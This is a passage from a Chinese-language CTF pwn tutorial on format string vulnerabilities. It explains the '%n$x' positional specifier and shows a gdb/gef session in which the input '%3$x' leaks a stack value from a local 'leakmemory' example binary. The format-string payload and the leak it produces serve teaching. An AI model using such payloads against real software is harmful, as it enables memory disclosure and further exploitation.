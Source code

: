 ```text
%n$x
```

利用如下的字符串，我們就可以獲取到對應的第n+1個參數的數值。爲什麼這裏要說是對應第n+1個參數呢？這是因爲格式化參數裏面的n指的是該格式化字符串對應的第n個輸出參數，那相對於輸出函數來說，就是第n+1個參數了。

這裏我們再次以gdb調試一下。

```shell
➜  leakmemory git:(master) ✗ gdb leakmemory
gef➤  b printf
Breakpoint 1 at 0x8048330
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
%3$x

Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
28	printf.c: 沒有那個文件或目錄.

─────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
─────────────────────────────────────────────────────[ stack ]────
['0xffffccec', 'l8']
8
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20	 ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  "%3$x"
0xffffcd04│+0x18: 0xffffcd10  →  "%3$x"
0xffffcd08│+0x1c: 0x000000c2
gef➤  c
Continuing.
00000001.22222222.ffffffff.%3$x

Breakpoint 1, __printf (format=0xffffcd10 "%3$x") at printf.c:28
28	in printf.c
─────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
─────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  "%3$x"
0xffffcd04│+0x08: 0xffffcd10  →  "%3$x"
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: "%3$x"	 ← $eax
0xffffcd14│+0x18: 0xffffce00  →  0x00000001
```